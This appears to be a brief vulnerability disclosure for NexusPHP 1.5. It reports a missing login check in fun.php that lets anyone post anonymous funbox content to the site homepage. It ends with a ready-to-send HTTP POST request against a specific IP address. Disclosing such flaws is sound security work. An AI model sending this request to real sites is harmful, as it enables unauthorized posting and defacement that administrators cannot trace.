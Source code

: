 # by burpheart


Just have access to the site to complete the attack.
#### Affected software: NexusPHP 1.5

#### Software Download Link: http://sourceforge.net/projects/nexusphp/
  
#### Github Repository https://github.com/ZJUT/NexusPHP

##  Vulnerability details

#### fun.php
Because the author forgot to add a login check, 
the funbox page fun.php can be accessed without logging in and can publish any content.  
Since there is no login to the site, the server records an empty publisher.
Administrators can't ban publishers either.
Funbox's content is displayed on the homepage and only 1 article can be published within 24 hours.
All users will see the published content.
#### exploit:
```
POST /fun.php?action=add HTTP/1.1
Host: 119.29.151.184
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 66
Cookie: NO_NEED_ANY_COOKIES
Upgrade-Insecure-Requests: 1

subject=123123213213213&color=1&font=0&size=0&body=123123512323333

```
